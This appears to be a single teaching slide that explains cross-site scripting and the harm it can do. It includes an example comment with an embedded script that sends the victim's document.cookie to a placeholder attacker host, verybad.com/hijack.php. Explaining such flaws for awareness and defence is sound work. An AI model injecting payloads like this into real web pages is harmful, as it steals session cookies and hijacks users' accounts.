

# Cross-Site Scripting (XSS)
XSS flaws occur whenever an application takes user supplied data and sends it to a web browser without first validating or encoding that content. XSS allows attackers to execute script in the victim's browser which can hijack user sessions, deface web sites, possibly introduce worms, etc.
Example Comment embedded with JavaScript
comment=“Something Good! <script> window.open( http://verybad.com/hijack.php?document.cookie</script>